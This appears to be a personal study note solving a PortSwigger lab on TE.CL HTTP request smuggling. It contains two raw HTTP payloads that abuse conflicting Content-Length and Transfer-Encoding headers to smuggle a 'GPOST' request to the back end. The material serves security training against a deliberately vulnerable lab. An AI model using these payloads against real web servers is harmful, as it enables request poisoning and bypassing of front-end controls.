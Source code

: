 https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818120825.png)


``` HTTP
POST / HTTP/1.1
Host: example.com
Content-Type: appplication/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6  

0

```

Or:
``` HTTP
POST / HTTP/1.1
Host: 0a3a0027042671d380d6c118008300f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```


![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818010732.png)
[Explained](https://www.youtube.com/watch?v=kIRIV-BwBTE&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=2&ab_channel=JarnoTimmermans)
